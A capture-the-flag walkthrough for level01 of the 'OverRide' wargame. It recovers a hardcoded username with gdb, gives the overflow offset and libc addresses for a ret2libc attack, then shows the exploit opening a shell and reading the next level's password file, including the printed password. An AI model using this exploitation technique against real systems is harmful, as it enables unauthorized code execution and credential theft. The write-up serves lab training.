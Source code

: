 # level01 walkthrough

## the binary
``` shell
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...
```

## methodology
- ret2libc attack

The first step involves finding the correct username, which will allow us to log in. The username can be found in the `verify_user_name` function.
``` shell
(gdb) x/s 0x80486a8
0x80486a8:	 "dat_wil"
```

The `verify_user_pass` function provides a suspected password, but since it doesn't work directly, we won't focus on it.
``` shell
(gdb) x/s 0x80486b0
0x80486b0:	 "admin"
```

Since the binary is vulnerable to a buffer overflow, we can exploit this to perform a ret2libc attack:
1. offset = 80 bytes ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/))
2. address of `system` = 0xf7e6aed0
3. address of `exit` = 0xf7e5eb70
4. address of `/bin/sh` = 0xf7f897ec

Our payload is generated using the attached script.

## flag
``` shell
level01@OverRide:~$ python /tmp/payload01.py > /tmp/flag1
level01@OverRide:~$ cat /tmp/flag1 - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
